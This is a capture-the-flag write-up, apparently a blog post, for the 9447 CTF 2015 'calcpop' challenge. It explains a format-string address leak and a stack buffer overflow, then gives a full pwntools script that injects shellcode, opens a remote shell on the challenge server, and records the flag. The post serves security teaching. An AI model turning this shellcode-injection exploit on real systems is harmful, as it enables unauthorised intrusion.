 ```yaml
---
layout: post
title: "9447ctf: calcpop"
author: f0rki
categories: writeup
---
```


* **Category:** Exploitation
* **Points:** 80
* **Solves:** 174
* **Description:**

> See if you can pop *this* calc.
>
> Running at calcpop-4gh07blg.9447.plumbing port 9447
>
>
[calcpop.tar.gz](https://github.com/ctfs/write-ups-2015/raw/master/9447-ctf-2015/exploitation/calcpop/calcpop-42928687007cc7a92fc0ac6028cf8f64.tar.gz)  42928687007cc7a92fc0ac6028cf8f6


## Write-up

We can connect to the challenge and send it two numbers, which it will add for
us. If we send something without a space, it will tell us the address of
our input, because instead of `%s` there is a `%p` in the format string:

```
Missing a space; your input was %p\n
```

Such a nice a infoleak. After some poking around I found that it is a straight
forward stack based buffer overflow:

```
$ python -c 'import sys; sys.stdout.write("A"*256)' | nc calcpop-4gh07blg.9447.plumbing 9447
Welcome to calc.exe
Missing a space; your input was 0xff8b44d0
Missing a space; your input was 0xff8b44d0
timeout: the monitored command dumped core
/usr/local/bin/ctf_wrapper.sh: line 6: 13607 Segmentation fault      timeout 300 $1 $2
```

Also using checksec we can see that `NX` is disabled.

{% highlight bash %}
$ checksec --file calcpop
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   calcpop
{% endhighlight %}

Yeah exploitation like it's the 90's. So we put shellcode on the stack and
overwrite the return address with the address we got from the infoleak. This is
pretty straightforward using a pwntools script.

The flag was: `9447{shELl_i5_easIEr_thaN_ca1c}`


{% highlight python %}
#!/usr/bin/env python

from pwn import *  # NOQA

context.arch = 'i386'

velf = ELF('./calcpop')

BUFFERSIZE = 128

shellcode = shellcraft.linux.sh()
log.info("using shellcode:\n" + shellcode)
shellcode = asm(shellcode)
nopslide = "\x90" * (BUFFERSIZE - len(shellcode))
payload = nopslide + shellcode

context.log_level = 'debug'

vp = remote('calcpop-4gh07blg.9447.plumbing', 9447)
#vp = process('./calcpop')
#gdb.attach(vp)

vp.recvline()
vp.sendline("")
s = vp.recvline().strip()
leakedaddr = s.split(" ")[-1]
leakedaddr = long(leakedaddr, 16)
log.info("leaked the addr " + hex(leakedaddr))

retaddr = leakedaddr + 20
log.info("trying return to " + hex(retaddr))

payload += (p32(retaddr)) * 10
#payload += (p32(0x41414141)) * 100

vp.sendline(payload)
vp.clean_and_log()
vp.sendline("exit")
vp.clean_and_log()
vp.sendline("pwd;ls;whoami;")
vp.clean_and_log()
vp.interactive()

{% endhighlight %}

